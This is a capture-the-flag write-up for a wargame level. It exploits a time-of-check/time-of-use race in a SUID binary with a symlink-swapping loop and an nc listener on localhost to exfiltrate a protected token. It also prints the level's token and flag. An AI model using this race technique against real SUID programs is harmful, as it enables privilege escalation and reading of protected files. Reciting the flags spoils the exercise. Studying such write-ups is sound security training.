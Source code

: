 ### Solution

1. **Inspect the directory:**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
	-rw-------  1 flag10 flag10     26 Mar  5  2016 token
	```

	* `level10` is a **SUID binary** owned by `flag10`.
	* The `token` file is **not readable** by `level10` user, but **the binary has permission to read it**.

2. **Understand how the binary works.**

	Run the binary without arguments:

	```bash
	./level10
	```

	Output:

	```
	./level10 file host
		sends file to host if you have access to it
	```

	Trying to read the token directly fails:

	```bash
	./level10 token level10
	```

	Output:

	```
	You don't have access to token
	```

3. **Analyze the binary in Ghidra.**

In Ghidra, the binary performs:

```c
iVar2 = access(filename, R_OK);
...
iVar3 = open(filename, O_RDONLY);
```

> *The binary checks access rights using `access()` **before** it opens the file with `open()`. This is a classic **TOCTOU (Time-Of-Check to Time-Of-Use)** vulnerability. It can be exploited by changing a symlink between the two calls.*

4. **Exploit the race condition using symlinks.**

	Create a loop that **rapidly switches a symlink** between two files:

	```bash
	while true; do
		ln -sf ~/level10 /tmp/flag10
		ln -sf ~/token /tmp/flag10
	done
	```

	Then, in another terminal, run the binary repeatedly using the symlink:

	```bash
	while true; do
		./level10 /tmp/flag10 127.0.0.1
	done
	```

	On the host machine, listen for the connection:

	```bash
	nc -l 6969
	```

	Eventually, the race condition wins and you’ll receive the token:

	```
	woupa2yuojeeaaed06riuj63c
	```

5. **Switch to flag10 and get the flag:**

	```bash
	su flag10
	```

	Password:

	```
	woupa2yuojeeaaed06riuj63c
	```

	Then:

	```bash
	getflag
	```

	Output:

	```
	Check flag.Here is your token : feulo4b72j7edeahuete3no7c
	```

	You’ll receive the `flag10` token.
